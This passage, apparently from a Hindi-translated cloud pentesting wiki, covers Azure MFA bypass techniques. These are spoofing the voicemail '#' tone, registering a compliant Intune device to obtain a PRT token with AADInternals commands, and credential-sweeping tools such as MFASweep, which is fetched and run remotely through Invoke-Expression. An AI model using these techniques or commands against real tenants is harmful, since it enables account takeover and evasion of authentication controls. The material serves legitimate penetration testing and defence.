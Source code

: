 ### रिंग टोन

एक Azure MFA विकल्प है **कॉन्फ़िगर किए गए फोन नंबर पर कॉल प्राप्त करना** जहां उपयोगकर्ता से **चर `#` भेजने** के लिए कहा जाएगा।

{% hint style="danger" %}
चरों को केवल **स्वर** के रूप में माना जाता है, एक हमलावर **फोन नंबर के वॉयसमेल** संदेश को **समझौता** कर सकता है, संदेश के रूप में **`#` का स्वर** कॉन्फ़िगर कर सकता है और फिर, जब MFA का अनुरोध किया जाता है, तो सुनिश्चित करें कि **पीड़ित का फोन व्यस्त है** (इसे कॉल करके) ताकि Azure कॉल वॉयसमेल पर पुनर्निर्देशित हो जाए।
{% endhint %}

### अनुपालन उपकरण

नीतियाँ अक्सर एक अनुपालन उपकरण या MFA की मांग करती हैं, इसलिए एक **हमलावर एक अनुपालन उपकरण पंजीकृत कर सकता है**, एक **PRT** टोकन प्राप्त कर सकता है और **इस तरह MFA को बायपास कर सकता है**।

एक **अनुपालन उपकरण को Intune में पंजीकृत करने** से शुरू करें, फिर **PRT प्राप्त करें**:
```powershell
$prtKeys = Get-AADIntuneUserPRTKeys - PfxFileName .\<uuid>.pfx -Credentials $credentials

$prtToken = New-AADIntUserPRTToken -Settings $prtKeys -GertNonce

Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken

<token returned>
```
Find more information about this kind of attack in the following page:

{% content-ref url="../../az-lateral-movement-cloud-on-prem/pass-the-prt.md" %}
[pass-the-prt.md](../../az-lateral-movement-cloud-on-prem/pass-the-prt.md)
{% endcontent-ref %}

## Tooling

### [**AzureAppsSweep**](https://github.com/carlospolop/AzureAppsSweep)

यह स्क्रिप्ट कुछ उपयोगकर्ता क्रेडेंशियल प्राप्त करती है और जांचती है कि क्या यह कुछ अनुप्रयोगों में लॉगिन कर सकती है।

यह उपयोगी है यह देखने के लिए कि क्या आपको कुछ अनुप्रयोगों में लॉगिन करने के लिए **MFA की आवश्यकता नहीं है** जिन्हें आप बाद में **privileges बढ़ाने** के लिए दुरुपयोग कर सकते हैं।

### [roadrecon](https://github.com/dirkjanm/ROADtools)

सभी नीतियों को प्राप्त करें
```bash
roadrecon plugin policies
```
### [Invoke-MFASweep](https://github.com/dafthack/MFASweep)

MFASweep एक PowerShell स्क्रिप्ट है जो **प्रदान किए गए क्रेडेंशियल्स का उपयोग करके विभिन्न Microsoft सेवाओं में लॉग इन करने का प्रयास करती है और यह पहचानने का प्रयास करती है कि क्या MFA सक्षम है**। यह इस पर निर्भर करता है कि कंडीशनल एक्सेस नीतियाँ और अन्य मल्टी-फैक्टर ऑथेंटिकेशन सेटिंग्स कैसे कॉन्फ़िगर की गई हैं, कुछ प्रोटोकॉल अंततः एकल कारक के रूप में रह सकते हैं। इसमें ADFS कॉन्फ़िगरेशन के लिए एक अतिरिक्त जांच भी है और यदि पता लगाया गया तो यह ऑन-प्रिम ADFS सर्वर में लॉग इन करने का प्रयास कर सकता है।
```bash
Invoke-Expression (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/dafthack/MFASweep/master/MFASweep.ps1").Content
Invoke-MFASweep -Username <username> -Password <pass>
```
### [ROPCI](https://github.com/wunderwuzzi23/ropci)
